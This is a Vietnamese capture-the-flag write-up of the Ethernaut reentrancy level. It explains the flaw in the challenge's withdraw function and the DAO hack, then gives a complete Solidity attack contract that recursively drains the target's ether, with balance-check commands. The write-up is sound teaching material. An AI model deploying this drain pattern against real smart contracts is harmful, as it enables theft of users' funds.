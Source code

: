 # Level 10: Reentrancy
##  ★★★☆☆
Lần này chúng ta sẽ tìm hiểu về một trong những lỗi bảo mật iconic và nghiêm trọng nhất trong smart contract đó là reentrancy attack
## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
## Reentrancy attack
- Trước khi đi vào phân tích challenge, ta cần hiểu thế nào là cuộc tấn công Reentrancy.
 - Reentracy attack là cuộc tấn công mà ở đó hacker sẽ cố gắng gọi đệ quy từ hàm rút tiền của contract, nếu contract không cẩn thận update số dư thì hacker sẽ withdraw toàn bộ tiền trong contract. 
 - Nó được thực hiện bằng cách là khi mà hacker thực hiện rút tiền từ contract, trong một contract khác ( theo ảnh dưới là Exploit contract) của hacker sẽ có fallback function mà trong fallback function đó lại tiếp tục call tới hàm ``withraw()``. Như vậy fallback function khi receive money sẽ tự động trigger và call withdraw, cứ thế lặp lại.
 
 -> thế là chúng ta vô một vòng đệ quy cho đến khi balance của contract được withdraw hết.
 ![](https://images.viblo.asia/6019738e-4648-490d-9033-8da8ae3ba291.png)
 
- Một trong những cuộc tấn công Reentrancy nổi tiếng là DAO hack, hacker đã đánh cắp 3,6 triệu ether ( hơn $50M USD ), điều này dẫn đến giá ETH bị crashed nghiêm trọng, buộc Ethereum phải tung một update quan trọng để fix. Và sự hình thành của đồng Ethereum classic bắt đầu từ đây.
- Bạn có thể đọc thêm về DAO hack tại [đây](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao)   và các loại tấn công Reentrancy tại [đây](https://viblo.asia/p/nhung-lo-hong-trieu-do-trong-ethereum-smart-contract-phan-i-ORNZqjerl0n)  
## Phân tích
- Đã gọi là low-level function thì đương nhiên nó sẽ luôn nguy hiểm, trường hợp ở đây của chúng ta là ``call``
```solidity
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
 
```
- Để chuyển tiền, ngoài ``selfdestruct()`` như đã biết, chúng ta có 3 cách là ``tranfer``, ``send`` và ``call`` . Điều mà solidity luôn khuyến nghị dùng là ``tranfer`` vì nó luôn bị revert khi giao dịch lỗi , còn send và call thì không, chúng chỉ trả về ``true/false`` . 
- Một điều để biết nữa đó là ``tranfer`` và ``send`` sẽ luôn có gas limit là 2300, nghĩa là ta chỉ thuần tùy là chuyển tiền thôi mà không thể thực hiện thêm logic nào khác . Còn ``call`` thì không giới hạn gas -> Điểm để khai thác trong reentrancy attack

> Note: Solidity sẽ tính gas dựa trên độ phức tạp của code bạn
## Solution
**Target**: Rút hết balance của smart contract.
- Check balance thì ta thấy có 0.001 ether
```javascript
await getBalance(contract.address)
0.001

```

- Compile và deploy contract này trên remix,

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.0 <0.9.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr)  {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate{value:msg.value}(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "my money!!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call{value:totalBalance}("");
        require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```
- Mình sẽ giải thích xíu về contract này sẽ tấn công như thế nào.
- Đầu tiên khi gọi donateAndWithdraw(), thì targetContract sẽ set value của ether ta gửi ``    balances[_to] = balances[_to].add(msg.value);``, sau đó hàm ``withdraw()`` sẽ được gọi và nó sẽ trigger fallback function là ``receive()`` và send số ether mà ta vừa gửi trở lại Attack contract . Vì hàm ``withdraw()`` vẫn chưa execute xong nên điều kiện ``balances[msg.sender] >= amount`` luôn đúng, ``withdraw()`` vẫn tiếp tục được gọi trong fallback function ở Attack Contract -> chúng ta vô đệ quy rút tiền.
- Cuối cùng, chúng ta dùng hàm withdrawAll() để rút hết balance có trong ``ReentranceAttack`` về ``player``.
- Check lại balance, nếu balance bằng 0 thì ta đã hoàn thành challenge này =))
```javascript
await getBalance(contract.address)
0
```
**Submit** -> Done
## Reference
- https://viblo.asia/p/nhung-lo-hong-trieu-do-trong-ethereum-smart-contract-phan-i-ORNZqjerl0n
- https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942
- https://www.gemini.com/cryptopedia/the-dao-hack-makerdao



